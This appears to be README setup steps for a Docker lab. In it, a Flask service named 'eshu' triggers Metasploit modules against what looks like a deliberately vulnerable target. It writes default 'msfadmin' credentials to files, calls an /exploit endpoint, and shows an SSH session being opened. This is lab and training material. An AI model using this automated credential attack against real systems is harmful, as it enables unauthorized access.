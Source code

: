 # If containers are running:
    docker compose down --remove-orphans

# Build and Start All Containers (might have to run this multiple times to go through)
docker compose up -d --build

# Check the status of all containers to confirm they’re up:
docker ps

# Enter the operator container:
docker exec -it operator /bin/bash

# Create the files:
cd /home
echo "msfadmin" > /home/user_file.txt
echo "msfadmin" > /home/pass_file.txt

# Once inside, start msfconsole with the required configuration file:
msfconsole -r /usr/src/metasploit-framework/docker/msfconsole.rc

# In a separate terminal, check the logs for eshu to ensure the Flask app started successfully (make sure you're within the improvedOp directory):
docker logs eshu

# Look for a line like this to confirm it’s listening on 10.1.1.99:5000:
 * Running on http://10.1.1.99:5000

# Once eshu is confirmed to be running, go back to msfconsole and send a test request from your host machine:
curl -X POST http://10.1.1.99:5000/exploit

# You should see:
{"result":{"job_id":0,"uuid":"qy08pPssI1VqkNutZQBQ4fhi"},"status":"module executed successfully"}
msf6 > [*] SSH session 1 opened (10.1.1.2:45471 -> 10.1.1.3:22) at 2024-11-07 03:45:40 +0000

# You can interact with the active SSH session from msfconsole by running:
sessions -i 1
